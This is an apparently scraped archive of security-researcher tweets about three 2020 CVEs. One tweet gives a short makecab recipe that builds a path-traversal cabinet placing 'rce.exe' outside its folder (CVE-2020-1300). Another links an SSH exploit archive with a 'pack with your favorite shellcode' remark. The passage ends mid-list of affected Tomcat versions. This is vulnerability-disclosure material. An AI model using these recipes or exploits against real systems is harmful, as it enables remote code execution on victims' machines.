 
# steventseeley
**https://twitter.com/steventseeley/status/1323694078022848512 _at 2020-11-03, 18:30:35_**
<blockquote>
For those that want to repro CVE-2020-1300 you can just use makecab, no need to manually calc checksums now:

c:\&gt;type files.txt
"rce.exe" "../../rce.exe"
c:\&gt;makecab /f files.txt
</blockquote>

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>136</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1323640631613394945 _at 2020-11-03, 14:58:13_**
<blockquote>
Dirty libssh2 PoC for CVE-2020-14871 to core target and pack with your favorite shellcode &amp; return addresses, something for the kidz on lockdown. Happy Hacking. https://t.co/7dqSGjOXqw https://t.co/UtnyDtxx1s
</blockquote>

* https://github.com/hackerhouse-opensource/exploits/blob/master/prdelka-vs-SUN-sshd.tgz

<table><tr>
<td><img src="pictures/42dbb8c0d83006f467f596e945243c61c5a5791f6cf71c0df4668fb450ff92da.jpg" alt="42dbb8c0d83006f467f596e945243c61c5a5791f6cf71c0df4668fb450ff92da.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>294</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1323510861940596736 _at 2020-11-03, 06:22:33_**
<blockquote>
Exploit for WebSocket Vulnerability in Apache Tomcat (CVE-2020-13935)

Affected Versions:
10.0.0-M1 to 10.0.0-M6
9.0.0.M1 to 9.0.36
8.5.0 to 8.5.56
8.0.1 to 8.0.53
7.0.27 to 7.0.104
